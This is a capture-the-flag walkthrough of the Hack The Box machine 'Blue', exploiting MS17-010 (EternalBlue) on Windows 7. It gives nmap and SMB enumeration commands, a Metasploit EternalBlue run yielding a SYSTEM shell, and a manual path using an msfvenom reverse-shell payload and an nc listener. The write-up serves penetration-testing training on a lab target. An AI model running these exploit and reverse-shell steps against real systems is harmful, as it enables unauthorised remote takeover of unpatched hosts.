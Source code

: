 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)
- **OS**: Windows 7 Professional SP1 (x64)
- **Exploit**: MS17-010 (ETERNALBLUE)
- **Privilege Escalation**: Not needed – initial shell is SYSTEM 🎯

---

## 🧭 Recon

### 🔍 Full TCP Port Scan
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.40
```

### 🎯 Targeted Script & Version Detection
```bash
nmap -p 135,139,445 -sCV -oA scans/nmap-tcpscripts 10.10.10.40
```

**Open Ports:**
- `135` (MS RPC)
- `139` (NetBIOS)
- `445` [SMB](SMB)
- Several in `49152-49157`

### 🛑 Vulnerability Check for MS17-010
```bash
nmap -p 445 --script vuln -oA scans/nmap-smbvulns 10.10.10.40
```

Output confirms:
```
VULNERABLE: Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
```

---

## 📁 SMB Enumeration

### 🧭 Guest Enumeration
```bash
smbmap -H 10.10.10.40 -u "0xdf" -p "0xdf"
```

### 🔎 Check Shares with `smbclient`
```bash
smbclient //10.10.10.40/share
smbclient //10.10.10.40/users
```

> Both readable, but no interesting files – just default folders.

---

## 💣 Exploitation – EternalBlue via Metasploit

### 🚀 Use Exploit Module
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.40
set LHOST 10.10.14.14
run
```

> ✅ Successful shell as `NT AUTHORITY\SYSTEM`

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### 🔄 Drop to Shell
```bash
meterpreter > shell
```

---

## 🏁 Flags

```bash
C:\Users\haris\Desktop> type user.txt
4c546aea************************

C:\Users\Administrator\Desktop> type root.txt
ff548eb7************************
```

---

## 🐍 Optional – Exploit with Python (for OSCP-like scenarios)

### ⚙️ Setup Python2 VirtualEnv for Impacket
```bash
sudo apt install virtualenv
cd /opt
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
virtualenv impacket-venv -p $(which python2)
source impacket-venv/bin/activate
pip install -r requirements.txt
pip install .
```

### 📦 Payload Generation
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f exe -o rev.exe
```

### 📤 Exploit Execution
```bash
python send_and_execute.py 10.10.10.40 rev.exe
```

### 🎧 Catch the Shell
```bash
rlwrap nc -lnvp 443
```

---

## 🧠 Lessons Learned

- MS17-010 is still widely useful in legacy environments.
- Metasploit is stable for this exploit, but Python tools offer good practice for manual setups.
- Always check for anonymous access and vulnerable SMB services.
- No privilege escalation needed: initial shell is SYSTEM.

---

Let me know if you'd like this exported as a Markdown or PDF report, or if you'd like to chain all walkthroughs into one HTB notebook! 📘💼